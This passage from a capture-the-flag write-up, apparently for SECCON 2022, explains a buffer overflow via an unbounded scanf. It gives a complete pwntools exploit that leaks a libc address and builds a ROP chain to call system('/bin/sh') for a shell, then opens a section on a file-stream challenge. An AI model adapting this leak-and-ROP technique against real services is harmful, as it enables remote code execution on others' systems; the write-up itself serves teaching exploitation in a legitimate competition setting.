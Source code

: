 ```
 scanf("%s", country);
```

From there, we can perform a basic ROP to pwn the binary. The exploit code for the challenge is below.

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./chall')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./chall', gdbscript=gs)
    if args.REMOTE:
        return remote('koncha.seccon.games', 9001)
    else:
        return process('./chall')
r = start()
#========= exploit here ===================
payload = b"\n"

r.sendlineafter(b"Hello! What is your name?", payload)
r.recvuntil(b"Nice to meet you, ")
leak = u64(r.recvline().strip()[:6].ljust(8,b"\x00"))

log.info(f"leak = {hex(leak)}")
libc.address = leak - 0x1f12e8
log.info(f"libc = {hex(libc.address)}")
evil = b"B"*0x58

evil += p64(libc.address+0x0000000000022679) #pop rdi
evil += p64(libc.address+0x0000000000023b6a) #ret (ubuntu)
evil += p64(next(libc.search(b"/bin/sh")))
evil += p64(libc.sym.system)

r.sendlineafter(b"Which country do you live in?", evil)

#========= interactive ====================
r.interactive()
```

## Babyfile

I really love this challenge. It uses one of my favorite exploitation techniques that I have learned so far. That's why I wanted to showcase this exploit in case it is helpful to someone learning about File Streams. You can find all the relevant files for the challenge [HERE.](https://github.com/dplastico/secconctf-2022/tree/main/babyfile). 
